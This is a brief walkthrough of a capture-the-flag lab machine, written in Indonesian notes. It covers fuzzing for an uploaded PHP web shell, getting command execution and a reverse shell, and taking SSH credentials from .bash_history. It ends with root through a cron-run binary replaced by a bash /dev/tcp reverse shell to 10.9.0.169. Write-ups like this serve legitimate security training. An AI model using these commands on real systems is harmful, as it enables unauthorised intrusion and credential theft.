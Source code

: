 1. scan 22 80 kebuka buka aja 
2. ada fungsi upload cek source code pas upload -> gitu sistemnya
3. di fuzz dir ada cvs -> coba dulu fuzz
4. ffuf -u "http://10.10.64.174/cvs/FUZZ.pdf.php" -w ~/wordlists/seclists/web-content/common.txt | tee fuzzcvs.txt
5. ada shell -> coba dulu
6. ffuf -u "http://10.10.64.174/cvs/shell.pdf.php?FUZZ=id" -w ~/wordlists/seclists/web-content/burp-parameter-names.txt -fw 1
7. bisa run command tuh -> revshell aja di urlencode -> pake revshell nc mkfifo dah gampang
8. dah bisa klaim user flag -> ke /etc cek cron.d cronjob  baca baca aja -> ssh cred ada di .bash_history home -> pas ssh
9. echo "bash -c 'bash -i >& /dev/tcp/10.9.0.169/6060 0>&1'" > bin/pkill ; chmod  +x bin/pkill
10. sambil nyalain nc -> klaim root
